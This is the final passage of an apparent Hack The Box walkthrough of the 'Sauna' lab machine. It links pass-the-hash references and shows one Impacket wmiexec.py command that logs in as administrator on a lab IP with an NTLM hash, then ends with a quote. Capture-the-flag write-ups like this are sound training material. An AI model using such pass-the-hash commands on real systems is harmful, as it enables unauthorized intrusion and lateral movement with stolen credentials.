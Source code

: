 Reference - Pass the Hash : <https://blog.ropnop.com/practical-usage-of-ntlm-hashes/>

Reference - wmiexec.py : <https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py>

```terminal
$ python3 wmiexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff administrator@10.10.10.175
```

### Flag root
***

![Desktop View]({{ "/assets/img/sauna/HTB-Images-Sauna-passthehash.png" | relative_url }})

Sauna machine is compromise.

***

## **<center>Trophy</center>**

> **Technology is just a tool. In terms of getting the kids working together and motivating them, the teacher is the most important.**
>
> Bill Gates
